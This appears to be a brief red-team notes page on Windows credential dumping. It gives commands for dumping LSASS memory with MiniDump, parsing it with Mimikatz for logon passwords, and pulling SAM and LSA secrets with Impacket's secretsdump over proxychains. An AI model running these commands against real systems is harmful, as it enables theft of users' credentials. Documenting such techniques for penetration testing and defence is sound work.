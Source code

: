 ```yaml
---
date: 2020-04-09 23:00:00 +0000
title: Credential Dumping
description: Notes on dumping LSASS and LSA secrets
categories: PostExploitation

---
```

### Dumping LSASS process

If it possible to execute  a csharp assembly to dump out the LSASS process in order to obtain credential information. For instance using the "MiniDump" tool from "Mr-Un1k0d3r" here - [https://github.com/Mr-Un1k0d3r/MiniDump](https://github.com/Mr-Un1k0d3r/MiniDump "https://github.com/Mr-Un1k0d3r/MiniDump")

    execute-assembly minidump.exe /pid:id

Make sure that the command is ran from a folder where the user has write access. Once the memory dump file is downloaded, Mimikatz can be used offline to parse the dump for passwords:

    sekurlsa::minidump lsass.dmp

    sekurlsa::logonPasswords

### Dumping LSA Secrets Registry Hive

Assuming the host has a Socks server running on it, it is possible to leverage proxychains and use Impacket's secretdump tool to dump the SAM and LSA secrets hive:

    proxychains secretdump.py domain/username:password@ip